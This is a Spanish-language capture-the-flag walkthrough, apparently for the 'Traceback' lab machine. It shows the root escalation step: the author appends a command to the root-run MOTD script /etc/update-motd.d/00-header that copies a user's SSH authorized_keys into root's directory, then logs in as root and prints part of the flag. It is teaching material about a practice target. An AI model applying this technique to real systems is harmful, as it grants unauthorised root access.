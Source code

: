 Vemos que existe un proceso que copia los ficheros del directorio **/var/backups/.update-motd.d/** al directorio **/etc/update-motd.d/**.
El fichero *"00-header"* se ejecuta cada vez que nos conectamos por **SSH**. 
Lo que vamos hacer es que nos copie la key ssh del usuario webadmin al usuario root, de esta forma podremos acceder por SSH con la misma private key.

```
sysadmin@traceback:/$ echo "cp /home/webadmin/.ssh/authorized_keys /root/.ssh/" >> /etc/update-motd.d/00-header
sysadmin@traceback:/$ cat /etc/update-motd.d/00-header
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

[ -r /etc/lsb-release ] && . /etc/lsb-release


echo "\nWelcome to Xh4H land \n"
cp /home/webadmin/.ssh/authorized_keys /root/.ssh/

```
Realizamos una conexión por SSH para que ejecute el fichero *"00-header"*.

```
$ ssh -i id_rsa webadmin@10.10.10.181

```

Y ya podemos acceder con la clave por SSH al usuario root.

```
ssh -i id_rsa root@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 



Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Fri Jan 24 03:43:29 2020
root@traceback:~# cat root.txt | cut -c1-20
695a5865b0314355ca08

```
